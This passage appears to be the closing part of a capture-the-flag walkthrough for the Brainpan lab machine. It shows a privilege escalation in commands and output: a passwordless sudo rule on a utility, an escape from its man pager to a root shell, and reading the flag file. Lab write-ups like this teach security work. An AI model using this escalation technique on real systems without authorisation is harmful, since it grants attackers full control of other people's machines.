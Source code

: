 Now with a new linux shell I enumerate the machine again.

```highlight
puck@brainpan:/home/puck$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$ 
```

Running sudo -l shows our user 'puck' can run /home/anansi/bin/anansi_util as root with out a password.

```highlight
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
puck@brainpan:/home/puck$ 
```

Running the utility I get 3 options, manual looks interesting as I can choose a command.

```highlight
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual bash
```

I am presented with the man page for bash so I can try to break out of the manual by typing: !/bin/bash

```highlight
root@brainpan:/usr/share/man# id
uid=0(root) gid=0(root) groups=0(root)
root@brainpan:/usr/share/man# cd /root
root@brainpan:~# ls
b.txt
root@brainpan:~# cat b.txt 
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|


                                              http://www.techorganic.com 
```

I exit the manual as root! 

Thats the box, thanks for reading!
